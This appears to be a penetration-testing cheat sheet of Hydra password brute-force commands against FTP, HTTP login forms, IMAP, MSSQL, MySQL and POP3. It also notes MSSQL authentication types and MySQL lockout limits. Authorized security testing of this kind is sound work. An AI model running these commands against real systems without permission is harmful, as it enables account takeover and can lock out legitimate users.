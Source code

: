 ### FTP
```
hydra -l '<user>' -P '<passwords.txt>' 10.10.10.10 ftp
```

### HTTP Basic Auth
```
hydra -l '<user>' -P '<passwords.txt>' 10.10.10.10 http-get /login.php
```

### HTTP GET
```
hydra -l '<user>' -P '<passwords.txt>' 10.10.10.10 http-get-form '/login.php:username=^USER^&password=^PASS^:Incorrect username or password'
```

### HTTP POST
```
hydra -l '<user>' -P '<passwords.txt>' 10.10.10.10 http-post-form '/login.php:username=^USER^&password=^PASS^:Incorrect username or password'
```

### IMAP
```
hydra -l '<email>' -P '<passwords.txt>' 10.10.10.10 imap
```

### MSSQL (SQL Server Authentication)
MSSQL supports two main types of authentication: **SQL Server authentication** and **Windows authentication**. <br>
In SQL Server authentication, the username and password are defined in SQL Server and stored in the `sys.sql_logins` table. For instance, this is the case for the System Administrator (sa) user. <br>
In Windows authentication, the credentials are stored in the SAM or NTDS.dit database. <br>
```
hydra -l '<user>' -P '<passwords.txt>' 10.10.10.10 mssql
```
>  Hydra (<b>version <= 9.4</b>) does not support MSSQL Windows authentication. To use that authentication, you can use alternative tools such as [Patator](#mssql-sql-server-authentication-2) or [NetExec](#mssql-sql-server-authentication-3).

### MySQL
```
hydra -t 4 -l '<user>' -P '<passwords.txt>' 10.10.10.10 mysql
```
>  By default, the lockout threshold for MySQL is set to **100** (`max_connect_errors = 100`). Exceeding this limit will automatically lock your IP address, and it will require intervention from the database administrator to unlock it.

### POP3
```
hydra -l '<email>' -P '<passwords.txt>' 10.10.10.10 pop3
```
>  If you encounter the error: `"Plaintext authentication disallowed on non-secure (SSL/TLS) connections"`, it means the POP3 server does not allow plaintext authentication. In that case, switch to POP3S by replacing **pop3** with **pop3s** in the command above.
